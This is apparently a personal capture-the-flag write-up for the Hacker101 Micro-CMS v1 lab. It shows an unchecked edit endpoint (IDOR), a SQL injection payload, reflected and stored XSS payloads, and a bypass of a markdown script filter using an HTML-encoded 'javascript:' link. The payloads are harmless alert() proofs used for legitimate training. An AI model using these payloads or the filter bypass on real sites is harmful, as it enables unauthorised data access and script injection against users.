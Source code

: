 # Breaking into Micro-CMS v1

## Flag 0: Insecure Direct Object Reference (IDOR)
Fuck, I used so many hints for this, even though it was actually way easier lol. This hint helped: "If the front door doesn't open, try the window".
 
Create two new pages. Spot that the website indexes this page sequentially:
```
<li>
    ::marker
    <a href="page/7">newpage1</a>
</li>
<li>
    ::marker
    <a href="page/8">newpage2</a>
</li>

```
Spot, that the very first post created by the admin is ```page/3```. So there is a lot missing between 3 - 7. And if you skip to page/4 you enter a page that is FORBIDDEN. We found the page we want to crack.
Using Network-Tab we see that the page only holds some Google-Analytics-Cookies. So no cookie hijacking probably.

The website has an option to edit webpages using ```page/edit/pagenumber```. Bingo:
```
page/edit/4
```
The edit endpoint doesn't check permissions.

## Flag 1:
XSS doesnt seems to work.
Path Traversal doesn't seem to work.
So SQL Injection it is. 

For the edit function to work the website has to store the previous contents of a file somewhere in a database. It pulls it with `/page/edit/4`. So lets see if this is sanitized:

```
https://f8ba173366a9388a84e5682ab9900a12.ctf.hacker101.com/page/edit/8'OR 1'=1 --
```
OR Operator evaluates Booleans. And 1 = 1 returns TRUE. The -- comments out the rest of the developer's query. So the POST to the database essentially becomes:
```
SELECT * FROM pages WHERE id = '8' OR '1'='1';
SELECT * FROM pages WHERE TRUE;
```
This lists all rows of the TABLE. So we see the entire database.
Flag found.


## Flag 2: Reflected XSS
/POST is unsanitized:
```
<script>alert(1+1)</script>
```
This could be used to ls the files in the server and then search
through them, possibly hitting admin privileges and then accessing


## Flag 3: Stored XSS
Using Markdown I can create a button on the website by default. `<button>click</button>`. I can use this to create a button with the event handler: 
```
<button onclick="javascript:alert(1)">click</button>
```
It creates a button. And if I click this (in developer tools) it shows me the flag.

## Discovery: Obfuscation By HTML-Encoding 
Test if the markdown sanitizer works correctly.

Figured out that the sanitizer just works something like this:
```
text = <a href=javascript:alert(1)></a>
if (text.includes === "script"){
    text.replace(/script/g, "scrubber");
}
```
The string `script` becomes `scrubbed`. So let's try and circumvent this parsing :). 

Figure out if the parser ignores backspaces or concatenation.
```
<scr\ipt>

<scr"+"ipt>
```
It failed.

But okay so the website parses it to markdown and then posts it. But after the conversion to markdown, the markdown is parsed to the website. And HTML decodes entities like `&#115;`(s) in attributes<a>.
```
<a href="java&#115;cript:alert(1)">Click</a>

```
Holy Guacamole, I can actually simplify this. Markdown sets <a href=> by itself, when you write:
```
[text](link)
[adorable kitten](java&#115;cript:alert(1)">Click</a>)
```
So in the `link` I can put in the `&#115`. Once Markdown converts it, it becomes:
```
<a href="java&#115cript:alert(1)">markdownvulnerability</a>
```
This is then handed to the website, which decodes the `&#115;` into s, thus it becomes `javascript` and the sanitisation is circumvented. It works! Doesn't give me a flag though lul.
